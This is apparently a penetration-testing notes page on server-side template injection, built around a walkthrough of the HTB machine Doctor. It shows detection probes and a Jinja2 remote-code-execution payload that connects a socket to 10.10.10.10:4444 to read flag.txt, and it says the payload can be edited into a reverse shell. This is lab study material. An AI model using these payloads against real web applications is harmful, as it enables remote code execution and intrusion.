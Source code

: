 ```yaml
---
description: '{{7*7}}'
---
```


# Server-Side Template Injection

SSTI exploits Template Engines, like node.js, Flask, Twig used in web applications. These engines are used by web apps to present dynamic data via web pages and emails. However, template injection occurs when the user input is embedded in a template in an unsafe manner.

## How it Works

Template injection works because websites fail to take in the data as just text, but rather process it and directly use it as part of a template, thus allowing attackers to inject template directives to manipulate the template engine used. This often leads to RCE.

To test for this, we can follow this flowchart:

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

A successful injection would result in '49' being output, showing that the website does indeed process the template injected and confirming that we have RCE.

## Example

The HTB machine Doctor has a good SSTI vulnerability within it.

The machine has a secret page that allows for posts by the user to be made with a **title** and **content.** We do not know the template engine being used yet.&#x20;

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

We can straightaway begin testing for SSTI via this. After using `{{7*7}}`, we would see the following:

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

The 49 present indicates that it worked, and that the other payload was not processed. Further testing with `{{7*'7'}}`would dispaly this:

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

From here, based on the flowchart, we would know that the website is running on either Jinja2 or Twig. We can then grab a payload for potential RCE using PayloadAllTheThings:

```python
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```

Editing the payload to give us a reverse shell would work on this machine.&#x20;

SSTI is rather easy to exploit once found. Here are some other payloads that we can use:

```
${}
${7/0}
{{}}
{{7*7}}
<%= %>
<%= 7*7 %>
``
```

Once the template has been identified, attempt exploitation via the relevant payload.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
